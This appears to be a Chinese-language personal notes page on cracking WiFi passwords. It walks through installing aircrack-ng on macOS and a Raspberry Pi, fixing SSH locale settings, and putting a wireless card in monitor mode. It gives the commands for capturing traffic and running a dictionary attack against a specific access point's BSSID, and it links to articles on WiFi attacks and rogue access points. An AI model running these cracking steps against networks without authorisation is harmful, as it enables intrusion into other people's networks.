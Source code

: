 ```yaml
---
title:  wifi密码破解
heading: 
date: 2021-11-23T13:37:23.761Z
categories: ["code"]
tags: 
description: wifi-crack
---
```


关于破解的方法和思路参考[渗透测试之构建高效WiFi破解字典](https://www.anquanke.com/post/id/219315)

常见工具：  

- [bully](https://www.kali.org/tools/bully/)
- [reaver](https://www.kali.org/tools/reaver/)
- [aircrack-ng](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)


## mac 上安装 aircrack-ng

参考程[aircrack-ng](https://github.com/aircrack-ng/aircrack-ng)教安装
``` 
brew install autoconf automake libtool openssl shtool pkg-config hwloc pcre sqlite3 libpcap cmocka
```
下载[aircrack-ng.tar.gz](https://www.aircrack-ng.org/doku.php?id=install_aircrack#installing_on_mac_osx)

解压后安装
```bash
 cd aircrack-ng-1.6
 autoreconf -i
 ./configure --with-experimental
 gmake
 gmake install
 ldconfig
```


```
airport -s
sudo rm -rf /tmp/airport*
sudo airport en0 sniff 3
ls -lh /tmp/airport*
aircrack-ng -w top100.txt -M 100 -f 80 -1 -a 2 -b 0c:5c:b5:c8:04:eb /tmp/airportSniff*.cap
```

## 树莓派上安装 aircrack-ng

查看网卡是否支持监听模式
```bash
iw list |grep monitor 
# 没有则不支持
iw list 
# 查看 Supported interface modes
# 是否有 monitor 模式
```

mac shell ssh 连接树莓派[中文乱码](https://monsoir.github.io/Notes/RaspberryPie/raspberry-ssh-locale.html)

查看配置
···
```bash
locale
# 输出
locale: Cannot set LC_CTYPE to default locale: No such file or directory
locale: Cannot set LC_MESSAGES to default locale: No such file or directory
locale: Cannot set LC_ALL to default locale: No such file or directory
cat /etc/default/locale
```


修改配置[locale](https://askubuntu.com/questions/599808/cannot-set-lc-ctype-to-default-locale-no-such-file-or-directory)
```bash
grep "^[^#]" /etc/ssh/sshd_config
sudo vi /etc/ssh/sshd_config
# 注释掉以下行
# AcceptEnv LANG LC_*
systemctl restart sshd
echo "export LC_ALL=en_US.UTF-8" >> /etc/.bash_profile
echo "export LANG=en_US.UTF-8" >> /etc/.bash_profile

grep "^[^#]" /etc/locale.gen
# 注释以下行
# en_US.UTF-8 UTF-8
sudo locale-gen
# 查看是否正常
locale
# 或者重新配置默认语音
# sudo dpkg-reconfigure locales
```

安装依赖
```bash
sudo apt-get update
sudo apt-get install -y libpcap-dev libsqlite3-dev sqlite3 libpcap0.8-dev libssl-dev build-essential iw tshark subversion ethtool
sudo apt-get install -y libnl-3-200 libnl-3-dev libnl-genl-3-dev libnl-genl-3-200
```

通过编译的方式[安装](https://www.aircrack-ng.org/doku.php?id=install_aircrack#compiling_and_installing) 
```bash
wget https://download.aircrack-ng.org/aircrack-ng-1.6.tar.gz
tar -zxvf aircrack-ng-1.6.tar.gz
cd aircrack-ng-1.6
autoreconf -i
./configure --with-experimental
make
make install
ldconfig
```

使用Aircrack-ng工具，依次输入以下命令  

```bash
# 杀死占用网卡的进程  
# 如果为空则证明没占用，有进程则需要手动关闭
1.airmon-ng check kill  
查看无线网卡状态
2.ifconfig/iwconfig -a
加载无线网卡，已加载则忽略
3.ifconfig wlan0 up
激活网卡
4.airmon-ng start wlan0
探测无线网络
5.airodump-ng mon0
```

无法关闭 avahi-daemon
```
# 提示
# stopping avahi-daemon.service but it can still be activated by
# 移出
apt-get remove avahi-daemon
```

无法设置监听模式
```bash
iwconfig wlan0 mode monitor
# out 
Error for wireless request "Set Mode" (8B06) :
    SET failed on device wlan0 ; Operation not supported
```

参考  
- [WiFi 安全与攻击案例分析](https://paper.seebug.org/1159/)
- [cracking-wifi-at-scale-with-one-simple-trick](https://www.cyberark.com/resources/threat-research-blog/cracking-wifi-at-scale-with-one-simple-trick)
- [wifi-attack-tools](https://linuxhint.com/wireless-attack-tools-kali-linux/)
- [wifi密码破解方法记录](https://www.jianshu.com/p/44d54b5369d8)
- [Mac上使用aircrack-ng破解Wi-Fi密码](https://uare.github.io/2016/cracking-wifi-by-aircrack-ng-on-mac)
- [近源渗透，超低成本打造自定义专属钓鱼WIFI](https://www.freebuf.com/articles/wireless/272733.html)
- [无线局域网攻防之Wi-Fi破解](https://www.freebuf.com/articles/wireless/280568.html)
- [知道创宇研发技能表v3](https://blog.knownsec.com/Knownsec_RD_Checklist/index.html)